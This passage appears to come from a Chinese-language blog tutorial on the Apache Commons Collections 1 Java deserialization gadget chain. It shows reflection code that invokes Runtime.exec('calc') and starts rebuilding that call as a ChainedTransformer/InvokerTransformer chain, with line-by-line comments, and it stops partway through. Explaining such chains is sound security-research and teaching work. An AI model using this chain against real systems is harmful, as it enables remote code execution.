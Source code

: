 ![image-20240312151438524](https://pic.mewhz.com/blog/image-20240312151438524.png)

使用普通反射获取 `Runtime` 实例对象并弹出计算器；

```java
@Test
public void test2() throws Exception {
    Class clazz = Runtime.class;
    // 获取 Runtime 的类对象
    Method getRuntime = clazz.getMethod("getRuntime");
    // 获取 getRuntime 方法
    Runtime runtime = (Runtime) getRuntime.invoke(null);
    // 执行静态方法获取 runtime 实例对象，静态方法时第一个参数可为 null
    Method execMethod = clazz.getMethod("exec", String.class);
    // 获取 exec 方法
    execMethod.invoke(runtime, "calc");
    // 执行 calc
}
```

改写成 `InvokerTransformer` 的形式，在 `transformer` 内部配合 `ChainedTransformer` 类反射 `Runtime` 的实例对象。

```java
package com.mewhz.cc1;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import org.junit.Test;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class TestDemo {

    @Test
    public void test1() throws Exception {
        ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer(Runtime.class),
                // constantTransformer 会把 runtime 的实例对象原样返回；用于过滤一开始 setValue 的类
                // 同时相当于 Class clazz = Runtime.class;
                // 传递 clazz 参数给下一个 transformer
                new InvokerTransformer(
                  "getMethod",
                  new Class[]{String.class, Class[].class},
                  new Object[]{"getRuntime", null}
                ),
                /*
                    由于 ChainedTransformer 的循环传入一个 Runtime.class
                    相当于执行 clazz.getMethod("getRuntime");
                    new InvokerTransformer 构造方法的三个参数
                    1. 执行的方法名，字符串类型
                        getMethod
                    2. 执行的方法参数类型，类数组
                        getMethod 接收的类型是字符串和可变长 Class，也就是 Class 数组
                    3. 执行的方法参数值，Object 数组：
                        getRuntime 和 null
```
